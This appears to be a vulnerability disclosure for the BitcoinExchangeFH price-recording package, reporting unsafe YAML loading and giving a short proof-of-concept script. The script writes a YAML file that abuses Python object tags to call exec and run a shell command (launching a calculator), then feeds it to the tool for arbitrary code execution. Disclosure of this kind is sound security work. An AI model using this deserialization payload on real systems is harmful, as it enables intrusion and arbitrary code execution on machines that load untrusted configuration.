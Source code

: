 # Description

`BitcoinExchangeFH` is a slim application to record the price depth and trades in various exchanges

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

### Installation
```
pip3 install bitcoinexchangefh
```

### Run exploit.py
```
import os
#os.system('pip install bitcoinexchangefh')
payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('config.yml','w+').write(payload)
os.system('bitcoinexchangefh --configuration config.yml')
```
* `python3 exploit.py`

# Impact

Arbitary Code Execution
